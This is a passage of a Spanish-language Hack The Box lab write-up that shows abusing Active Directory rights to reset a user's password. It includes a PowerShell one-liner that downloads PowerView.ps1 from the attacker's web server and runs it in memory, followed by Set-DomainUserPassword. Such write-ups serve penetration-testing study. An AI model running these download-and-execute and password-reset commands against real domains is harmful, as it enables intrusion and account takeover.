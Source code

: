 <figure><img src="../../../../../.gitbook/assets/2521_vmware_elawmgnG3j.png" alt=""><figcaption></figcaption></figure>

Esto significa que podemos realizar un cambio de contraseña al usuario objetivo, en este caso, como tenemos acceso a la máquina Windows, podemos realizar el "Windows Abuse".

<figure><img src="../../../../../.gitbook/assets/2522_vmware_zVJe0sdif1.png" alt=""><figcaption></figcaption></figure>

Volveremos a la terminal del WinRM, importaremos el módulo de _PowerView.ps1_ que disponemos en nuestra Kali y procederemos a asignarle una nueva contraseña al usuario (michael@administrator.htb).

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">ls PowerView.ps1
<strong>
</strong><strong>python3 -m http.server 80
</strong>
IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword 
</code></pre>

<figure><img src="../../../../../.gitbook/assets/2523_vmware_9T26ZtfclK.png" alt=""><figcaption></figcaption></figure>
